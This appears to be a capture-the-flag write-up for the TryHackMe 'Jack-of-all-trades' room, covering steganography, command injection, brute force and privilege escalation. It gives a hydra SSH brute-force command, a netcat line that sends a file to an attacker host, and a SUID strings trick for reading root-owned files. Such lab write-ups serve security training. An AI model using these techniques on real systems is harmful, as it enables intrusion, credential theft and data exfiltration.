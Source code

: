 ```yaml
---
title: THM Jack-of-all-trades writeup
description: Tryhackme Jack-of-all-trades room writeup
authors: ["shivam"]
image: https://tryhackme-images.s3.amazonaws.com/room-icons/baa244c10b8308efe5d3956cc1c73db6.jpeg
slug: jack-of-all-trades
tags: ["stegnography", "strings", "SUID"]
---
```


Hello everyone,

Today we are going to solve Jack-of-all-trades machine from tryhackme. we will learn about how to open restricted port on browser,some stegnography and how to do privesc with strings SUID.

![](https://tryhackme-images.s3.amazonaws.com/room-icons/baa244c10b8308efe5d3956cc1c73db6.jpeg)

<!--truncate-->

## Nmap results

```bash
PORT   STATE SERVICE VERSION
22/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Jack-of-all-trades!
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
80/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey:
|   1024 13:b7:f0:a1:14:e2:d3:25:40:ff:4b:94:60:c5:00:3d (DSA)
|   2048 91:0c:d6:43:d9:40:c3:88:b1:be:35:0b:bc:b9:90:88 (RSA)
|   256 a3:fb:09:fb:50:80:71:8f:93:1f:8d:43:97:1e:dc:ab (ECDSA)
|_  256 65:21:e7:4e:7c:5a:e7:bc:c6:ff:68:ca:f1:cb:75:e3 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

--> If you are facing the problem with firefox about restricted port so here is the quick guide to help you :

1.open a new tab and search for `about:config`
2.Then you will see one search bar. Type `network.security.ports.banned.override` and if it appears then double click on it and add the port which you want to allow(in our case 22)
3.If it doesn't appear then make one new by clicking on `+` icon and select type as integer and add `22` in it and save it and you are good to go!

After configuration it will look like this !

![](Attachments/Pastedimage20220109125326.png)

--> Now we can goto that port and i found this page there !

![](Attachments/Pastedimage20220109125419.png)

## Gobuster results

```bash
===============================================================
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/assets               (Status: 301) [Size: 318] [--> http://10.10.223.122:22/assets/]
/index.html           (Status: 200) [Size: 1605]
/server-status        (Status: 403) [Size: 278]
===============================================================
```

## Enumration

--> Found this in the comment of the page on port `22`

```bash
Remember to wish Johny Graves well with his crypto jobhunting! His encoding systems are amazing! Also gotta remember your password: u?WtKSraq
```

Possible name : `Johny`
also got one password : `u?WtKSraq`

--> Also got this in comment :

```bash
Note to self - If I ever get locked out I can get back in at /recovery.php
```

--> Got this page in `/recovery.php`

![](Attachments/Pastedimage20220109120648.png)

--> Also in comment i found this string:

![](Attachments/Pastedimage20220109120618.png)

```bash
Remember that the credentials to the recovery login are hidden on the homepage! I know how forgetful you are, so here's a hint: bit.ly/2TvYQ2S
```

--> The link redirects us to the wikipedia page for `Stegosauria` so here we have to do some stegnography.

--> I went to `/assets` and found 3 images: `header.jpg`,`stego.jpg` and `jackinthebox.jpg`. So let's do stego on them one by one!

--> Found the creds from `header.jpg` by stego using `u?WtKSraq` as password !

```bash
Here you go Jack. Good thing you thought ahead!

Username: jackinthebox
Password: TplFxiSHjY
```

--> Found this in `stego.jpg` using same password as `header.jpg`

```bash
Hehe. Gotcha!

You're on the right path, but wrong image!
```

But we already found username and password so let's try to login on `/recovery.php`

--> And boom it worked!

And i found the page which says this :

```bash
GET me a 'cmd' and I'll run it for you Future-Jack.
```

--> So i tried `cmd` as parameter and it worked ! So i tried to get the reverse shell with that parameter and i got the shell as `www-data`

![](Attachments/Pastedimage20220109121928.png)

--> In `/home` directory i found one file called `jacks_password_list` so it might be a ssh passwords of jack so i grabbed them and ran hydra

```bash
hydra -l jack -P jacks_password_list.txt ssh://<ip>:80 -t 10
```

--> Found jack's password !

![](Attachments/Pastedimage20220109122405.png)

`jack:ITMJpGGIqg1jn?>@`

--> But we don't have user flag here! instead we have one image so let's transfer this using netcat into our machine !

```bash
#Victim machine
nc <attacker_ip> <port> < user.jpg

#Attacker machine
nc -lp <port> > user.jpg
```

--> After opening the image i found the flag !

![](Attachments/Pastedimage20220109124032.png)

## Privesc

--> I done `sudo -l` but found nothing so i tried to find the `SUID` files with this command :

```bash
find / -perm -u=s -type f 2>/dev/null
```

--> And i found some files in which `/usr/bin/strings` looks interesting !

![](Attachments/Pastedimage20220109124226.png)

--> So i searched on gtfobins and i found that we can read any file with strings so let's read `/root/root.txt` with it !

```bash
LFILE=/root/root.txt
/usr/bin/strings "$LFILE"
```

--> And i found the root flag!

![](Attachments/Pastedimage20220109124346.png)
